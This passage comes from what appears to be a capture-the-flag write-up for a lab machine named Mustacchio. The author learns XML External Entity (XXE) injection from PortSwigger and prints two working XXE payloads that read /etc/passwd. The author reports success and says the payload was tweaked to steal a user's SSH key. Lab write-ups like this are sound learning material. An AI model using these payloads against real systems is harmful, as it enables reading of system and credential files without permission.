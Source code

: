 It appears the next step is to use XML External Entiry (XXE) to grab barry's SSH key to allow us to connect to the machine. Learning XXE is very much on my to do list so I went over to [port swigger academy](https://portswigger.net/web-security/xxe) which has a great training resource and found the following payload:

```highlight
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "file:///etc/passwd"> ]>
<stockCheck><productId>&xxe;</productId></stockCheck>
```

Using the original example and the payload above I created my own payload to test XXE.

```highlight
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "file:///etc/passwd"> ]>
<comment>
  <name>Daz</name>
  <author>Please work...</author>
  <com>&xxe;</com>
</comment>
```

It worked! 

![testworked](/assets/images/mustacchio/testworked.png)

I tweaked the payload to grab barrys SSH key.
